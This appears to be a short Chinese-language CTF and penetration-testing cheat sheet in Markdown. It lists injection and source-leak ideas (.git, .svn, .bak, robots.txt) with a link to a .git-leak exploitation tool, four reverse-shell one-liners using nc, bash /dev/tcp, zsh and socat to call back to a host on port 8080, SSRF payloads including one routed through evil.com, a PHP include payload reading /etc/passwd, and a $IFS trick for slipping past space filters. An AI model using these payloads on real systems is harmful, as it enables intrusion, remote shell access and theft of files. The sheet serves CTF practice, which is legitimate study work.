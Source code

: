 ## 基础脑洞/思路
1. index.php?id=1  遍历id 注入
2. robots.txt .git .svn .swp ~ .bak 源码，目录泄露
  .git泄露利用EXP
  https://github.com/lijiejie/GitHack
## 反弹shell
```sh
nc -e /bin/bash 192.168.1.2 8080
bash -c 'bash -i >/dev/tcp/192.168.1.2/8080 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.1.2 8080 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.2:8080  
```
## ssrf常用payload
`admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php`
`file://user@evil.com:80@www.google.com//var/www/html/index.php%23`

## php7 直接崩溃bug
`include(‘php://filter/string.strip_tags/resource=/etc/passwd’)`
## $IFS
空格可以使用$IFS代替